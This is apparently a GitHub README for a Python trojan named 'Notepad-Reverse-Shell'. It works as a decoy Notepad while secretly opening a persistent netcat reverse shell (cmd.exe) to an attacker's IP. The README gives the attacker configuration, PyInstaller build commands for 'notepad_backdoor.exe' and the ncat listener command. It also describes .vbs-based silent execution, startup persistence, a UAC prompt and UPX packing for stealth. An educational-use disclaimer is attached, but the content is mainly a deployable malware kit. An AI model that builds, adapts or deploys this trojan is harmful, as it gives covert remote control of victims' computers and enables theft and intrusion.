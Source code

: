 # 🕵️‍♂️ Notepad-Reverse-Shell (Python + Netcat Reverse Shell)

A deceptive Notepad application built in Python that masquerades as a functional text editor while silently establishing a persistent reverse shell using `nc.exe`. The GUI mimics a standard Notepad, allowing users to open and save files, while covertly connecting to an attacker's machine every 10 seconds.

> ⚠️ **FOR EDUCATIONAL PURPOSES ONLY.**  
> **DO NOT USE ON SYSTEMS WITHOUT EXPLICIT AUTHORIZATION. Unauthorized use is illegal and unethical.**

---

## 🚀 Features

| Feature | Description |
|---------|-------------|
| ✔️ **Notepad GUI** | Fully functional text editor with open/save file capabilities |
| ✔️ **Reverse Shell** | Persistent Netcat reverse shell (`nc.exe -e cmd.exe`) |
| ✔️ **Silent Execution** | Runs covertly via a `.vbs` wrapper for stealth |
| ✔️ **UAC Elevation** | Automatically prompts for administrative privileges |
| ✔️ **Startup Persistence** | Auto-starts on reboot via `%APPDATA%` and Windows Startup folder |
| ✔️ **Retry Loop** | Reattempts reverse shell connection every 10 seconds if disconnected |
| ✔️ **Windows-Specific** | Executes only when Windows Defender is disabled and firewall permits outbound traffic |

---

## ⚙️ Configuration

Modify the following variables at the top of `Notepad.py` to configure the reverse shell:

```python
LHOST = "YOUR_ATTACKER_IP"  # Attacker's IP address
LPORT = 4444               # Attacker's listening port
NC_PATH = r"C:\Path\To\nc.exe"  # Path to Netcat executable on target
```

### Example Configuration
```python
LHOST = "192.168.138.128"
LPORT = 4444
NC_PATH = r"C:\Users\Test_Lab\Desktop\Toolbox\netcat\nc.exe"
```

---

## 📋 Prerequisites

Ensure the target system meets the following conditions for successful execution:

| Requirement | Description |
|-------------|-------------|
| **Operating System** | Windows 7, 8, 10, or 11 (32-bit or 64-bit) |
| **Windows Defender** | Must be disabled to allow `nc.exe` execution |
| **Firewall** | Must allow outbound traffic on the configured `LPORT` (e.g., 4444) |
| **Python 3.7+** | Required for development and building the `.exe` |
| **Tkinter** | GUI library (typically included with Python) |
| **PyInstaller** | Converts `.py` to `.exe` (`pip install pyinstaller`) |
| **Netcat (`nc.exe`)** | Windows-compatible Netcat binary (available from [Nmap Ncat](https://nmap.org/ncat)) |

---

## 🔨 Building the Executable

To compile `Notepad.py` into a silent, standalone `.exe`, follow these steps using a Python 3.7 virtual environment:

```bash
# 1. Navigate to the project directory
cd path\to\your\project

# 2. Create and activate a Python 3.7 virtual environment
py -3.7 -m venv venv37
venv37\Scripts\activate

# 3. Install PyInstaller
pip install pyinstaller

# 4. Clone the Repo
git clone 
cd notepad-reverse-shell

# 5. Compile the script into a single executable
pyinstaller --onefile --noconsole --name=notepad_backdoor Notepad.py
```

### Output
- **Location**: `dist/notepad_backdoor.exe`
- **Size**: Approximately 5-10 MB (varies with dependencies)
- **Execution**: GUI-only, no console window

---

## 💻 Usage Instructions

### Attacker Machine
1. **Start a Netcat Listener**:
   ```bash
   ncat -lvnp 4444
   ```
   Ensure the port matches the `LPORT` configured in `Notepad.py`.

2. **Verify Network Accessibility**:
   - Confirm the attacker's machine is reachable from the target network.
   - Ensure no firewall blocks inbound traffic on `LPORT`.

### Target Machine (Windows)
1. **Prerequisites**:
   - **Disable Windows Defender**: The `.exe` will fail to execute if Windows Defender is active, as it may flag `nc.exe` as malicious.
   - **Configure Firewall**: Allow outbound traffic on the specified `LPORT` (e.g., 4444) via Windows Firewall or equivalent.

2. **Deploy the Executable**:
   - Double-click `notepad_backdoor.exe` on the target machine.
   - The executable will:
     - Prompt for UAC administrative access.
     - Deploy a `.bat` and `.vbs` file in `%APPDATA%` for persistence.
     - Add itself to the Windows Startup folder.
     - Initiate a reverse shell connection in a 10-second retry loop.
     - Launch a functional Notepad GUI as a decoy.

3. **Verify Execution**:
   - Check the attacker's listener for an incoming connection from the target.
   - Use the functional Notepad GUI to maintain the appearance of a legitimate application.

---

## 🛡️ Security Considerations

- **Windows Defender**: The reverse shell relies on `nc.exe`, which is often detected as malicious. Ensure Windows Defender is disabled on the target system for testing purposes.
- **Firewall Configuration**: The target’s firewall must permit outbound connections on the specified `LPORT`. Use `netsh advfirewall` or the Windows Firewall GUI to configure rules if needed.
- **Obfuscation**: The current implementation does not obfuscate `nc.exe` or the `.exe`. Consider tools like UPX or custom packers for enhanced stealth in advanced scenarios.
- **Privilege Escalation**: The UAC prompt requires user interaction. Without admin rights, persistence via the Startup folder may fail.

---

## ⚠️ Legal and Ethical Disclaimer

This project is intended **solely for educational purposes**, such as penetration testing, red team exercises, or malware analysis in controlled lab environments. Unauthorized deployment on systems without explicit permission is **illegal** and violates ethical standards. The author assumes **no responsibility** for misuse.

---

## 👨‍💻 Author

**Muhammad Arsalan Javed**   
**GitHub**: [github.com/arslanjv](https://github.com/arslanjv)  

---

## 📜 License

This project is licensed under the [MIT License](https://opensource.org/licenses/MIT). Use responsibly and respect all applicable laws.

